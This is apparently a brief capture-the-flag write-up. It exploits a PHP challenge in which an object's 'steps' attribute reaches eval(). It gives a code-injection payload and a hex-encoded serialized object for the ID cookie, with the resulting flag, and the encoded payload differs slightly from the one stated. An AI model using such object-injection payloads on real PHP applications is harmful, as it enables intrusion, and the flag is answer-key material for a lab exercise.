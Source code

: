 # RUMBLING

## Write-up

by reading the source code : 
we find that when the Rumbling object is being serialized , it executes a php expression using eval() 
let's attemps php code injection !

we should create a rumbling object with the following value as steps attribute : `1;global $flag ; echo $flag;1`
then we serialize it and encode it 

use this value in the ID cookie : 4f3a383a2252756d626c696e67223a323a7b733a343a226e616d65223b733a343a2273616d69223b733a353a227374657073223b733a33323a22343b676c6f62616c2024666c61673b6563686f2024666c61673b6563686f2032223b7d

## Flag

`nexus{1_h4v3_Th3_fr33d0m_t0_c0nt1nu3_m0vinG_forward}`
